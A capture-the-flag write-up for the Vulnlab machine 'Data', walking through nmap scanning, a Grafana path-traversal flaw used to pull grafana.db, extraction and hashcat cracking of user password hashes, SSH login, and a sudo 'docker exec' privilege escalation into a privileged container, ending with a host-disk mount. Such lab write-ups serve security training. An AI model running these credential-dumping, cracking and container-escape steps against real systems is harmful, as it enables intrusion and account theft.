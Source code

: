```yaml
---
title: Data Vulnlab (English)
image: /assets/img/Anexos/Máquina%20Data.png
description: Down Vulnhab [Difuculty easy]
categories: [CTF,Vulnlab]
tags: [hacking,easy]
---
```




## Introduction
N/A
### Machine Description


- Name: Data
- Goal: Get two flags
- Difficulty: easy
- Operating System: Linux
- link: [Data](https://wiki.vulnlab.com/guidance/easy/data )

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Data.pdf)






## Reconnaissance 


```shell
❯ sudo nmap -sSCV --min-rate 5000 -p- --open -n -Pn 10.10.101.106
[sudo] password for belin: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-06 20:45 CEST
Nmap scan report for 10.10.101.106
Host is up (0.21s latency).
Not shown: 63838 closed tcp ports (reset), 1695 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:52:bf:7b:a8:60:29:b7:e6:09:b0:e6:8e:e5:3e:4a (RSA)
|   256 37:a2:cb:57:c3:7a:c3:16:72:ed:e2:59:c4:25:d9:37 (ECDSA)
|_  256 dd:0a:c9:d3:fc:5b:dc:ca:b4:21:7e:91:2c:17:9d:28 (ED25519)
3000/tcp open  http    Grafana http
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Grafana
|_Requested resource was /login
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.48 seconds
```
We start the initial enumeration directly with `nmap` and nmap reported only de port 22 and 3000 open, the port 3000 has Grafana executing 

![](/assets/img/Anexos/Máquina%20Data-1.png)

In this case we can see the version which is always very risky so doing some search in Google I could easily find the CVE which is basically a Path traversal: 

## Exploitation 


![](/assets/img/Anexos/Máquina%20Data-2.png)

In order to exploit grafana and knowing that there's a ssh server running, we can get the hashes of grafana database (`grafana.db`) and the crack them. 

![](/assets/img/Anexos/Máquina%20Data-3.png)

In order to reach a better view we can dump the `grafana.db` directly to our hot machine and inspect it using `sqlite3`


```shell
sqlite> select * from user;
1|0|admin|admin@localhost||7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S|hLLY6QQ4Y6||1|1|0||2022-01-23 12:48:04|2022-01-23 12:48:50|0|2022-01-23 12:48:50|0
2|0|boris|boris@data.vl|boris|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl|mYl941ma8w||1|0|0||2022-01-23 12:49:11|2022-01-23 12:49:11|0|2012-01-23 12:49:11|0
```

After getting the hashes and their salt, also important for the next step, we can use the next tool in order to pass the hash and their respective salt to an hashcat readable format. In this case I used this tool from github:  

> https://github.com/iamaldi/grafana2hashcat


```shell
❯ python3 grafana2hashcat.py hashes

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  hashes
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[*] Outfile was not declared, printing output to stdout instead.

sha256:10000:cGVwcGVy:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
sha256:10000:cGVwcGVy:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=


[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt
```

Then we crack it, rockyou is enough
```shell
❯ hashcat -m 10900 hashes_hashcat /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

Successfully initialized the NVIDIA main driver CUDA runtime library.

Failed to initialize NVIDIA RTC library.

* Device #1: CUDA SDK Toolkit not installed or incorrectly installed.
             CUDA SDK Toolkit required for proper device support and utilization.
             Falling back to OpenCL runtime.

OpenCL API (OpenCL 3.0 CUDA 12.8.97) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #1: NVIDIA GeForce RTX 2060, 4480/5737 MB (1434 MB allocatable), 30MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1029 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

So now we can attempt to connect to ssh as boris, the only user we know: 
```shell
❯ ssh boris@10.10.92.169
boris@10.10.92.169's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1060-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul  7 08:55:01 UTC 2025

  System load:  0.0               Processes:              99
  Usage of /:   19.8% of 7.69GB   Users logged in:        0
  Memory usage: 24%               IP address for eth0:    10.10.92.169
  Swap usage:   0%                IP address for docker0: 172.17.0.1


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Sun Jan 23 13:11:53 2022 from 10.10.1.254
boris@ip-10-10-10-11:~$ 
```

## Privilege Escalation

As boris we can execute /snap/bin/docker exec * as root:
```shell
boris@ip-10-10-10-11:/$ sudo -l
Matching Defaults entries for boris on ip-10-10-10-11:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User boris may run the following commands on ip-10-10-10-11:
    (root) NOPASSWD: /snap/bin/docker exec *
```

So supposing the container's name is grafana, we can use it as the name of the contaaner: 

```shell
boris@ip-10-10-10-11:/$ sudo -u root /snap/bin/docker exec grafana whoami
grafana
```
We're good, now the next step is getting root access in the container 

```
boris@ip-10-10-10-11:/$ sudo -u root /snap/bin/docker exec -u root -it grafana bash
bash-5.1# 
```

Once as root I run `Deepce` and it reported that we hace privilaged access in the container so we can just mount the whole target machine in the docker: 

```bash
mount /dev/xvda1 /mnt/host
```

